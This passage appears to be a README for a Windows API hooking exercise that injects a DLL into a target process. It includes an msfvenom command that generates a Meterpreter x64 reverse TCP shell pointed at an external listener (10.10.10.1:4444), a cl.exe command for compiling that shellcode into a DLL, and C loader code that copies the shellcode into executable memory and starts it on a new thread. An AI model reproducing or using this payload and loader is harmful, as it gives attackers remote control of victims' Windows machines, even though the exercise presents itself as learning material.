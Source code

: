 # windows API hooking

This is a little excercise that tries to solve the following task:  
hook a Win API function that gets called in an executable

This task gets solved in the following way:  
Write hooking code for a chosen Win API function, put it in a DLL and inject the DLL into some target process.

This example is split into two parts, a preparation phase and the coding phase.

prep phase:

* Injecting meterpreter shellcode and executing through a DLL
* DLL Debugging 
* choosing the target function

tackling the problem:

* writing the hooking code
* building an exe to test the hook
* adopting for x64
* porting over to a DLL file

## Injecting meterpreter shellcode and executing through a DLL

At first I had some issues with executing meterpreter shellcode from a simple, self written DLL. This is due to a difference in execution of the shellcode depending on whether it is run from an .exe file or a .dll. Additionally, I noticed another issue when starting the DLL main or function via rundll32.exe. The executed shellcode does not keep the main thread from exiting. Therefor, I had to keep the DLL from exiting through either sleep or an infinite loop.

### Differences in starting the shellcode

First things first, the chosen shellcode was a meterpreter windows x64 reverse tcp shell created with

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f c > code.c`

The shellcode is then embedded in a simple c file and compiled as a DLL with cl

`cl.exe /O2 /D_USRDLL /D_WINDLL hook.c /MT /link /DLL /OUT:Hook.dll`

Also, as described [here](https://stackoverflow.com/questions/1130479/how-to-build-a-dll-from-the-command-line-in-windows-using-msvc), the same can be achieved with just `cl /LD <files>`

The shellcode execution in an exe file can either be done by specifying the code location as the starting point for a new thread like so:

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, shellcode, lensh);
    VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
    thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec, 0, 0, 0);
    WaitForSingleObject(thread, 0);
```
